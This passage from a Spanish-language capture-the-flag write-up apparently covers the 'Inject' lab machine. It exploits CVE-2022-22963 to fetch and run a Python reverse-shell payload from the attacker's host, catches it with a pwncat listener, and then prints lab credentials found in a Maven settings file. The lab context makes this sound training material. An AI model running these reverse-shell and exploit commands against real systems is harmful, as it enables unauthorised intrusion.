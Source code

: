 Ya hay un número de exploits de prueba de concepto por ahí, pero decidí crear uno de todos modos aquí. Vamos a utilizar este programa para generar una shell inversa que responde a un oyente PwnCat.

```bash
# mhil4ne@kali (bash)
pwncat-cs -c <(echo "listen -m linux -H $lhost 443")
```

```bash
# mhil4ne@kali (bash)
inject_fetch ../../../../../../usr/bin | grep '^python' # python3 is installed
tmp=$(mktemp -d)
cat << EOF > $tmp/index.html
import os,pty,socket
s=socket.socket()
s.connect(("$lhost",443))
[os.dup2(s.fileno(),f)for(f)in(0,1,2)]
pty.spawn("bash")
EOF
python3 -m http.server --bind $lhost --directory $tmp 80 &
python3 CVE-2022-22963.py "http://$rhost:8080" "curl $lhost -o/tmp/_d"
python3 CVE-2022-22963.py "http://$rhost:8080" "python3 /tmp/_d"
```

A continuación, debemos obtener una devolución de llamada a nuestro oyente en el puerto 443 como el usuario Frank.

# Privilege Escalation

## Frank

Empezaremos explorando el sistema de ficheros empezando por el directorio home de frank

```bash
# frank@inject (bash)
find ~ -type f

/home/frank/.bashrc
/home/frank/.m2/settings.xml
...
```

Hay un archivo de configuración de usuario Maven en ~/.m2/settings.xml{:.filepath} que contiene las credenciales para el usuario phil.

```bash
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```
